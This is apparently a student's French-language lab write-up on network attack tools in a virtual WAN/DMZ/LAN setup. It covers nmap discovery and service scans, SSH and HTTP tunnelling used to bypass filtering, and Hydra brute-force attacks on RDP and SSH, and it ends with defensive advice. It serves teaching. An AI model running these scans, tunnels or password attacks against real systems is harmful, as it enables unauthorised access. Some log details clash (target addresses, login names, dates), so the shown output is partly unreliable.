




# tp-outils-cyber
### Mirija Jonathan RAJOELAIRIVONY ANDRIAMAHERY
## EXERCICE 1 - Découverte de cibles

#### Depuis le WAN, listez les hôtes accessibles sur le WAN (NAT Network).

```shell
$ nmap -sn 10.0.3.0/24
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-20 10:14 EST
Nmap scan report for 10.0.3.1
Host is up (0.00015s latency).
MAC Address: 52:54:00:22:46:10 (QEMU virtual NIC)
Nmap scan report for b005-12.etudiants.campus.villejuif (10.0.3.2)
Host is up (0.00014s latency).
MAC Address: 52:54:00:22:46:10 (QEMU virtual NIC)
Nmap scan report for b006-03.etudiants.campus.villejuif (10.0.3.4)
Host is up (0.00012s latency).
MAC Address: 08:00:27:88:C4:AA (Oracle VirtualBox virtual NIC)
Nmap scan report for efrei-fw12vxu0.campus.villejuif (10.0.3.20)
Host is up (0.0011s latency).
MAC Address: 08:00:27:DD:22:9B (Oracle VirtualBox virtual NIC)
Nmap scan report for b005-12.etudiants.campus.villejuif (10.0.3.5)
Host is up.
Nmap done: 256 IP addresses (5 hosts up) scanned in 2.31 seconds
```

```shell
$ nmap 10.0.3.20      
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-20 10:15 EST
Nmap scan report for efrei-fw12vxu0.campus.villejuif (10.0.3.20)
Host is up (0.0015s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 08:00:27:DD:22:9B (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 5.01 seconds
```

#### Toujours depuis le WAN, essayez de lister les machines présentes sur le LAN et la DMZ. Pourquoi n'y arrivez-vous pas?
Je ne peux contacter que le serveur web car il est en NAT.

#### Depuis la DMZ, listez les cibles potentielles. Pouvez-vous détecter les machines du LAN?
```bash
$ nmap -sn 192.168.44.0/24
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-20 10:05 EST
Nmap scan report for 192.168.44.210
Host is up (0.00079s latency).
MAC Address: 08:00:27:FA:0C:B9 (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.44.254
Host is up (0.00082s latency).
MAC Address: 08:00:27:C2:1A:D3 (Oracle VirtualBox virtual NIC)
Nmap scan report for E92BE3E8 (192.168.44.66)
Host is up.
Nmap done: 256 IP addresses (3 hosts up) scanned in 6.95 seconds
```

```bash
$ sudo nmap -sV -O 192.168.44.210
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-20 10:09 EST
Nmap scan report for 192.168.44.210
Host is up (0.00076s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
MAC Address: 08:00:27:FA:0C:B9 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
```

```bash
$ nmap 192.168.44.254    
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-20 10:11 EST
Nmap scan report for 192.168.44.254
Host is up (0.00074s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE
53/tcp  open  domain
80/tcp  open  http
443/tcp open  https
MAC Address: 08:00:27:C2:1A:D3 (Oracle VirtualBox virtual NIC)
```

#### Depuis le LAN, listez les cibles accessibles. Voyez-vous toutes les machines et tous les services?
```bash
$ nmap 192.168.43.0/24
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-20 10:00 EST

Nmap scan report for 192.168.43.210
Host is up (0.00088s latency).
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
5357/tcp open  wsdapi
MAC Address: 08:00:27:6A:7E:D2 (Oracle VirtualBox virtual NIC)

Nmap scan report for 192.168.43.211
Host is up (0.00031s latency).
PORT     STATE SERVICE
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
2049/tcp open  nfs
MAC Address: 08:00:27:FB:2B:66 (Oracle VirtualBox virtual NIC)

Nmap scan report for 192.168.43.254
Host is up (0.0011s latency).
PORT    STATE SERVICE
53/tcp  open  domain
80/tcp  open  http
443/tcp open  https
MAC Address: 08:00:27:BB:55:81 (Oracle VirtualBox virtual NIC)
```

## EXERCICE 2 - Intérêt de la DMZ et trafic entrant depuis le WAN

#### Activez l'accès SSH depuis le WAN vers le serveur WEB de la DMZ.

```bash
apt-get install openssh-server
```

```bash
$ nmap 10.0.3.20
[...]
80/tcp open  http
```

```bash
$ ssh sakuta@10.0.3.20
sakuta@10.0.3.20's password: 
Linux debian 6.1.0-31-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.128-1 (2025-02-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
sakuta@debian:~$
```

#### Tunnel SSH pour accéder au RDP :



```bash
$ ssh -L 3389:192.168.43.210:3389 sakuta@10.0.3.20
```

```bash
$ rdesktop 127.0.0.1
Autoselecting keyboard map 'en-us' from locale
Core(warning): Certificate received from server is NOT trusted by this system, an exception has been added by the user to trust this specific certificate.
Failed to initialize NLA, do you have correct Kerberos TGT initialized ?
Core(warning): Certificate received from server is NOT trusted by this system, an exception has been added by the user to trust this specific certificate.
Connection established using SSL.
```



## EXERCICE 3 - Contournement de règles de filtrage IP

#### Tunnel HTTP pour faire passer SSH :



```bash
$ hts -F localhost:22 80
```

```bash
$ htc -F 10000 10.0.3.20:80

$ ssh sakuta@localhost -p 10000
sakuta@localhost's password: 
Linux debian 6.1.0-31-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.128-1 (2025-02-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Feb 21 15:30:22 2025 from 10.0.3.5
sakuta@debian:~$
```

## EXERCICE 4 - Attaques par force brute

```bash
$ hydra -t 1 -V -f -l jean -P liste.txt rdp://192.168.43.210
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-20 04:26:59
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 1 task per 1 server, overall 1 task, 8 login tries (l:1/p:8), ~8 tries per task
[DATA] attacking rdp://192.168.33.200:3389/
[ATTEMPT] target 192.168.43.210 - login "jean" - pass "toto" - 1 of 8 [child 0] (0/0)
[ATTEMPT] target 192.168.43.210 - login "jean" - pass "yolo" - 2 of 8 [child 0] (0/0)
[ATTEMPT] target 192.168.43.210 - login "jean" - pass "sepuku" - 3 of 8 [child 0] (0/0)
[ATTEMPT] target 192.168.43.210 - login "jean" - pass "ratata" - 4 of 8 [child 0] (0/0)
[ATTEMPT] target 192.168.43.210 - login "jean" - pass "bingbong" - 5 of 8 [child 0] (0/0)
[ATTEMPT] target 192.168.43.210 - login "jean" - pass "P@ssw0rd" - 6 of 8 [child 0] (0/0)
[3389][rdp] host: 192.168.43.210   login: jean   password: P@ssw0rd
[STATUS] attack finished for 192.168.43.210 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-03-20 18:30:12

```

```bash
$ hydra -l sakuta -P liste.txt 10.0.3.20 ssh -t 4
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-20 19:02:30
[DATA] max 4 tasks per 1 server, overall 4 tasks, 9 login tries (l:1/p:9), ~3 tries per task
[DATA] attacking ssh://10.0.3.20:22/
[22][ssh] host: 10.0.3.20   login: carambole   password: P@ssw0rd
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-03-20 19:02:37
```

#### Pour protéger les accès :

- Utiliser `fail2ban`
- Filtrer les IP sources (autoriser uniquement depuis le LAN)